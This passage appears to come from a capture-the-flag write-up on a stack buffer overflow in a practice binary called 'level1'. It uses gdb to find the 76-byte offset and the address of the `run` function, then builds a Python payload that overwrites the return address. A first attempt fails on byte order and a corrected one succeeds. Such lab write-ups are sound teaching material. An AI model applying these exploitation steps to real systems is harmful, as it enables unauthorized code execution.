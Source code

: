 	```
	> (gdb) p/d 0xbffff730 + 0xc - 0xbffff6f0
	$1 = 76
	```

1. Now we know our memory mapping, we need to find where we want to redirect. Going back to the function `run`. We find that the function address is: `0x08048444`.

	```sh
	> (gdb) info functions run
	All functions matching regular expression "run":

	Non-debugging symbols:
	0x08048444  run
	0xb7f15530  truncate
	0xb7f15580  ftruncate
	0xb7f155d0  truncate64
	0xb7f15630  ftruncate64
	0xb7f4c7a0  svc_run
	```

	```asm
	.text:08048444 run             proc near
	.text:08048444 ; __unwind {
	.text:08048444                 push    ebp
	...
	.text:0804847F ; } // starts at 8048444
	```

1. Let's try our prediction.

	```sh
	> python -c 'print( "A" * 76 + "\x08\x04\x84\x44" )' | ./level1
	Segmentation fault (core dumped)
	```

1. We missed something. After trying few variations (using a loop to detected if we misscalculated our sizes), it wasn't that. Few research / test later, an endianness issue was raised.

	```sh
	> lscpu | grep Endian
	Byte Order:            Little Endian
	```

1. God dammit, we were providing our target address using big endian... Convert it.

	```sh
	> python -c 'print( "A" * 76 + "\x44\x84\x04\x08" )' | ./level1
	Good... Wait what?
	Segmentation fault (core dumped)
	```

1. YES! We did it! But, we don't get access to the executed Shell since piping to `level1` using `python` will end `gets` as stated in the documentation.

	```
	gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF
	```
